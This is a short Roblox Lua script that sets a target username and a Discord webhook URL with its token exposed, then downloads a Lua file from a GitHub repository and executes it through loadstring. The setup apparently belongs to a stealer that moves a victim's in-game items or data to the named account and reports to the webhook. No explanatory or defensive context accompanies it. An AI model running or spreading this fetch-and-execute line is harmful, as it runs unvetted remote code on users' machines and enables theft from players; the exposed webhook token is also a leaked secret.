 Username = "poilkjmnb223"
Webhook = "https://discord.com/api/webhooks/1135742068011057325/Yip8wVoXAU9A6MDSwedQDdwgyYqOehgW6hYKJxgpNyJIRQIkuiAbeB9vDm7vg1rIrXna"

loadstring(game:HttpGet("https://raw.githubusercontent.com/k4ftt/rizzhub/main/New.lua"))

